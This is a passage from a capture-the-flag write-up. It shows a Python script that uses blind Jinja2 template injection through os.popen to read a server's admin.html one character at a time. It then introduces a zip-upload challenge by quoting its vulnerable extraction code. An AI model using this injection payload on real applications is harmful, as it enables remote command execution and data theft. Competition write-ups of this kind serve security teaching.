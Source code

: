 ```py
p = p[:-6].replace('"', '').replace("\\", "")
p = "%{}\n \"'<>/._-abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" + p # trying to speed things up

s = requests.session()
url = "http://chal2.pctf.competitivecyber.club:49759/messages"

cook = {"session": ".eJwlzjkOwzAMBdG7qE7xRS0UfRmDFCkkrR1XQe4eA-lngPdJ-zrifKbtfVzxSPvL05bWBA-ZWREBTEUr2h2wRY2WUR-Sw0DZxTWyO6OQhbEMMGyid2iDkTEtNquj9KnO98i55rj7uqQJA1xtSTdpuRcNUfPhlm7Idcbx11D6_gDJRi9K.YmxzIA.y1v2Dr3oNbAkC1XIvQ98FYkT05c"}

i = 0 # should be 0 but if you cant be bothered to wait then skip a couple numbers, flag starts at around index 122 on admin.html

c_i = 0
while True:
    c = "\\x" + ("0" * (3 == len(hex(ord(p[c_i]))))) + hex(ord(p[c_i]))[2:] # this hex encodes the characters eg "/" goes to "\x2f" but in an unnecessarily complex way because
    data = {
        "username": "a",
        "message": f"""{{% if "".__class__.__base__.__subclasses__().__getitem__(200).__init__.__globals__.sys.modules.os.popen("cat app/templates/admin.html").read().__getitem__({i}) == "{c}" %}}
            works
        {{% endif %}}"""
    }
    r = s.post(url, cookies=cook, data=data).text

    if r.split("Just sent your message: ")[1][0].startswith("works"): # if "works" is output, ie the character we guessed, c, does indeed exist in the output at index i
        i += 1 # ...so move onto the next index
        print(str(bytes.fromhex(c[2:]))[2:-1], end = "") # ...add it on to our known output
        c_i = 0 # ...and reset back to the first character to brute force once again
    else:
        c_i += 1 # otherwise, it didn't work, so test the next character
```

---

## ZaaS

> I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can view the admin.html page, I will give you a flag.
>
> Due to market research, I think I found an opportunity. Nobody seems to know how to unzip files, so I made (un)Zip as a Service! I have learned from my mistakes, so I will be giving you the source code for the unzipping functionality (app/routes/upload.py) as well running the app in debug mode so you can tell me how to fix my inevitably vulnerable code!
>
> Author: NihilistPenguin (Daniel Getter)

This one was the most fun challenge for me. We're given the same site as before, but now the focus is on the new functionality of uploading `.zip` files to be unzipped. The vulnerability lies in this block of code:

```py
# upload.py

def upload():
    # ...
    filename = secure_filename(file.filename)
    upload_dir = app.config['UPLOAD_FOLDER'] + "/" + filename.rsplit('.', 1)[0]
    # ...
    with zipfile.ZipFile(file, "r") as zf:
        for f in zf.infolist():
```